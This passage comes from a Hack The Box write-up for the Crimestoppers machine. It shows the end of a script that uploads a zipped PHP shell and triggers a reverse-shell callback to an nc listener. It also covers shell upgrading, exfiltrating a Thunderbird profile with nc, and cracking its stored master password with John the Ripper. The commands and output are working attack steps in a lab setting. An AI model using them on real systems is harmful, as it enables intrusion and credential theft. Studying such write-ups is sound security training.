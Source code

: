     echo "[*] Initiating callback to ${ip}:${port}"
    a=$(curl -s -G "${url}" --data-urlencode "op=${op}" --data-urlencode "${param}=${p}" -x 127.0.0.1:8080)
    
    
    
    root@kali# ./request_shell.sh  10.10.14.139 8081
    [*] Creating php shell and zip file
      adding: shell.php (deflated 5%)
    [*] Getting PHPSESSID and CSRF token from /?op=upload
    [+] Tokens received:
      PIPSESSID: tdjrjl4571r7ouutpn9aae1133
      CSRF:      d8f36f072d960fcb7110a5acb45668eed3faf78e52bbd268597fdd7ed464fb49
    [*] Uploading zip though /?op=upload form
    [+] File uploaded to ?op=view&secretname=92ec709161beddd0906c2191ee85b0e9217c682b
    [*] Initiating callback to 10.10.14.139:8081
    
    
    
    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.139] from (UNKNOWN) [10.10.10.80] 54104
    /bin/sh: 0: can't access tty; job control turned off
    
    $ python3 -c 'import pty;pty.spawn("bash")'
    www-data@ubuntu:/var/www$ pwd
    /var/www
    

## Privesc: www-data –> dom

Started off with a LinEnum.sh, but nothing particularly interesting jumped
out.

`/home/dom` was open for reading, which in addition to giving `user.txt`, also
revleas a `.thunderbird` directory with a profile in it.

### thunderbird - password extraction

Inside the profile, the first interesting thing is to look for passwords.

zip that entire directory and exfil it using `nc`. First, get the master
password using john:

    
    
    root@kali# /opt/JohnTheRipper/run/mozilla2john.py key3.db
    key3.db:$mozilla$*3*20*1*811d3b70d608a8ad6faee44bf0568bd77ca8b2ca*11*0000000000000000000000*16*1810e3dcb634e700a4d959e35d38f282*20*11a9519177437ef38aa8bf1966d02f0d9f6a8c2f
    root@kali# /opt/JohnTheRipper/run/mozilla2john.py key3.db > key3.db.john
    root@kali:/opt/JohnTheRipper/run# ./john ~/hackthebox/crimestoppers-10.10.10.80/key3.db.john -w /usr/share/wordlists/rockyou.txt
    Loaded 1 password hash (Mozilla, Mozilla key3.db [SHA1 3DES 32/64])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
                     (key3.db)
    1g 0:00:00:00 DONE (2018-04-08 17:34) 25.00g/s 88650p/s 88650c/s 88650C/s 123456..sss
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    